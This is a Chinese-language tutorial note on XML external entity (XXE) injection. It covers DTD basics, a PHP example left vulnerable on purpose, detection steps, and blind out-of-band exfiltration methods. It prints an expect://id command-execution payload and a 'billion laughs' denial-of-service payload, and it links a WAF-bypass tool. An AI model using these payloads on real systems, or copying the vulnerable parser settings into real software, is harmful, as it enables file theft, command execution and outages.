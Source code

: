 # XXE(XML外部实体注入)

## 目录

- [XXE(XML外部实体注入)](#xxexml外部实体注入)
  - [目录](#目录)
  - [XML(可拓展标记语言)](#xml可拓展标记语言)
    - [XML格式与DTD](#xml格式与dtd)
  - [产生原因](#产生原因)
  - [漏洞挖掘与判断](#漏洞挖掘与判断)
  - [漏洞利用](#漏洞利用)
    - [XML实体支持的协议](#xml实体支持的协议)
    - [有回显](#有回显)
      - [内部DTD+外部普通实体](#内部dtd外部普通实体)
      - [外部DTD+参数实体](#外部dtd参数实体)
    - [无回显(盲打)](#无回显盲打)
      - [外部DTD+参数实体的递归调用](#外部dtd参数实体的递归调用)
    - [其他利用](#其他利用)
  - [漏洞防御](#漏洞防御)
  - [相关工具](#相关工具)


## XML(可拓展标记语言)
### XML格式与DTD

- DTD是文档类型定义，约束XML书写规范
- DTD分类
  - 外部DTD(DTD是单独的.dtd文件)
  - 内部DTD(DTD与XML写在一起)

- DTD实体(类似于变量)
  - 内部普通实体
  - 外部普通实体
- 参数实体(实体定义时需要在实体前加%)
  - 内部参数实体
  - 外部参数实体
- 内部外部区别
    - 是否有url/uri
    - 外部实体定义需要在实体后加SYSTEM

```xml
<!-- 声明xml格式、版本及编码 -->
<?xml version = "1.0" encoding = "UTF-8">

<!-- neibuDTD -->
<!DOCTYPE neibuDTD[

    <!-- 内部普通实体 -->
    <!ENTITY aaa "lalala">
    <!-- 外部普通实体调用用外部DTD -->
    <!ENTITY bbb SYSTEM "http://127.0.0.1/xxx.dtd">
    <!-- 内部参数实体 -->
    <!ENTITY % ccc "hahaha">
    <!-- 外部参数实体调用外部DTD -->
    <!ENTITY % ddd SYSTEM "http://127.0.0.1/yyy.dtd">

    <!-- 参数实体调用必须写在DTD中 -->
    &ccc;
    &ddd;

    <!-- 也可以重新定义一个普通实体eee引用参数实体ccc，普通实体eee值为参数实体ccc -->
    <!ENTITY eee "%ccc;">
]>

<!-- XML -->
<!-- 普通实体在XML中调用 -->
<books>
    &aaa;
    &bbb;
    &eee;
</books>
```

## 产生原因
- 允许传入xml
- 开启了外部实体加载
```php
<?php
    //libxml_disable_entity_loader (true)为关闭外部实体加载
    libxml_disable_entity_loader (false);
    $xmlfile = file_get_contents('php://input');
    $dom = new DOMDocument();
    $dom->loadXML($xmlfile, LIBXML_NOENT | LIBXML_DTDLOAD); 
    $creds = simplexml_import_dom($dom);
    echo $creds;
?>
```
## 漏洞挖掘与判断
- 服务器能够解析xml
  - html请求头Content-Type: application/xml
- 服务器允许传入任意的xml
  - 随机写xml或者是写一个错的xml，看响应消息有没有变化或报错
- 服务器允许外部实体加载
  - libxml_disable_entity_loader (false);

## 漏洞利用
### XML实体支持的协议

|PHP|Java|.NET|libxml2
|:---:|:---:|:---:|:---:
|http|http|http|http
|ftp|ftp|ftp|ftp
|file|file|file
|data|https|https|
|php|jar
|glob|netdoc
|phar|mailto
|compress.zlib|gppher*
|compress.zlibp2

### 有回显
#### 内部DTD+外部普通实体
- 1.直接在xml中的内部dtd中定义一个外部实体，外部实体的值就是伪协议payload
- 2.在xml中调用外部实体即可
  
  ![](..\img\XXE\2022-06-14-00-08-14.png)

#### 外部DTD+参数实体
- 1.在xml内部DTD中定义一个外部参数实体，实体的值是外部DTD的url   
- 2.在外部DTD文件中，定义一个外部实体，实体值是伪协议payload  
- 3.在内部DTD中引用参数实体，在xml中引用外部DTD的外部实体
  
  ![](..\img\XXE\2022-06-14-00-27-43.png)
  ![](..\img\XXE\2022-06-14-00-09-09.png)

### 无回显(盲打)
#### 外部DTD+参数实体的递归调用
- 1.在xml内部DTD中定义一个外部参数实体，实体的值是外部DTD的url
- 2.在外部DTD文件中，定义一个外部参数实体，实体的值是伪协议payload
- 3.在外部DTD文件中，再次定义一个参数实体，参数实体的值 再定义一个外部参数实体，外部参数实体的值是url外带拼接（url+第2步参数实体的调用）
- 4.在xml内部DTD中，分别调用三个外部参数实体，分别是 第1步的外部参数实体和 第3步创建的两个参数实体

  ![](..\img\XXE\2022-06-14-00-30-02.png)

  ![](..\img\XXE\2022-06-14-00-29-05.png)

- 开启监听接收数据
  
  ![](..\img\XXE\2022-06-14-00-32-05.png)

- base64解密
  ![](..\img\XXE\2022-06-14-00-32-29.png) 

### 其他利用
- 命令执行
```xml
<?xml version="1.0"?>
<!DOCTYPE root [ <!ELEMENT  ANY >
<!ENTITY xxe SYSTEM "expect://id" >]>
<root>&xxe;</root>
```
- DDOS攻击
```xml
  <?xml version="1.0"?>
     <!DOCTYPE lolz [
     <!ENTITY lol "lol">
     <!ENTITY lol2 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
     <!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
     <!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
     <!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
     <!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
     <!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
     <!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
     <!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
     ]>
<lolz>&lol9;</lolz>
```
- [xxe双重实体编码绕过waf](https://www.qqxiuzi.cn/bianma/zifushiti.php)

## 漏洞防御
- 1.过滤敏感的标签
- 2.禁用外部实体加载libxml_disable_entity_loader (true);

## 相关工具
- [Xxer](https://github.com/TheTwitchy/xxer )
